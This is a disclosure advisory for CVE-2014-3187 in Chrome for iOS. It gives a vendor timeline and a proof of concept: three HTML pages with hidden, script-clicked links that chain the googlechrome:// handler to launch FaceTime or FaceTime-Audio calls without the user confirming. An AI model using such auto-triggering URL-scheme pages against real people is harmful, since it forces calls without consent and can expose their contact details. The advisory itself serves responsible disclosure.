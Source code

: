 ## CVE-2014-3187 


|Title          |Issue with Facetime and Facetime-Audio URL Schemes|
----------------------- | --- |
|**Affected Vendor:** |Google |
|**Affected Software:** | Google Chrome for iOS |
|**Affected Version:** | Anything prior to 37.0.2062.60 |
|**Issue Type:** | Lack of user confirmation leading to Facetime and Facetime Audio calls being arbitrarily initialized by an attacker.|
|**Release Date:** | September 23, 2014 |
|**Discovered by:** | Matias P. Brutti - @S9Labs |
|**CVE Identifier:** | CVE-2014-3187 |
|**Issue Status:** | Vendor has published version 37.0.2062.60 on September 22 which corrects this issue by prompting the user before executing Facetime or Facetime-Audio Calls. Official update also came on October 7 [Link](http://googlechromereleases.blogspot.com/2014/10/chrome-for-ios-update.html) |


##### Description

Using the same technique deployed by Andrei Neculaesei ( link: http://algorithm.dk/posts/rtfm-0day-in-ios-apps-g-gmail-fb-messenger-etc ) to bypass some iOS applications including G+, Facebook, Hangouts, among others to launch phone calls automatically without permission. By looking for a way to also exploit this directly on Messages which according to the author of the other vulnerabilities was not possible. After some research, We realized that googlechrome:// was a powerful handler and I was able to also abuse google's chrome url-handlers to automatically initiate FaceTime calls directly from any website or application by using a one or two step attack depending which applications you are on. The attack works on the latest Chrome available for iOS as of 8/25/2014, and allows any person to trigger video FaceTime calls automatically on iOS. 

##### Proof of Concept

For example if using Messages, An attcker could easily send a link friendly link to a malicious or compromised website (i.e http://evilrovot.com/hack.html). Knowing that Safari will *not* open FaceTime:// directly and it will pop-up a message, a two step approach is needed using the googlechrome:// URL handler to open a new chrome window on a new page which will trigger the vulnerability on http://evilrovot.com/test.html. 

[ APP RECEIVING LINK ] --> [ SAFARI ] --> [ GOOGLE CHROME ] --> [ FACETIME ] 

Code for this files is as follow:

hack.html
```html
<html>
<body>
<a id="callme" href="googlechrome://evilrovot.com/test.html" style="display:none">click</a>
<script>
var t = document.getElementById("callme");
var fe = document.createEvent("MouseEvents");
fe.initEvent("click", true, true);
t.dispatchEvent(fe);
</script>
</body>
</html>
```

test.html
```html
<html>
<body>
<a id="callme" href="facetime://+0000" style="display:none">click</a>
<script>
var t = document.getElementById("callme");
var fe = document.createEvent("MouseEvents");
fe.initEvent("click", true, true);
t.dispatchEvent(fe);
</script>
</body>
</html>
```

ft_audio.html
```html
<html>
<body>
<a id="callme" href="facetime-audio://+0000" style="display:none">click</a>
<script>
var t = document.getElementById("callme");
var fe = document.createEvent("MouseEvents");
fe.initEvent("click", true, true);
t.dispatchEvent(fe);
</script>
</body>
</html>
```
##### Recommendations
The ideal behavior should be that it triggers a pop-up asking the user wether he/she wants to start a FaceTime or FaceTime-Audio conversation with the number in question.

##### Timeline
```
8/24 — Issue was reported to Google
8/27 — Expanded bug to add facetime-audio as well
8/27 — Both issues were accepted and tracked.
9/10 — Status update communication with team.
9/12 — Migrated to Chromium project.
9/12 — Issue fixed on Chromium open source project.
9/22 — Google Chrome for iOS update available
9/23 — Section9Labs makes issue public.
10/7 — Google makes vulnerability public CVE-2014–3187
```

##### Full Write-Up
[https://medium.com/section-9-lab/abusing-ios-url-handlers-on-messages-96979e8b12f5](https://medium.com/section-9-lab/abusing-ios-url-handlers-on-messages-96979e8b12f5)

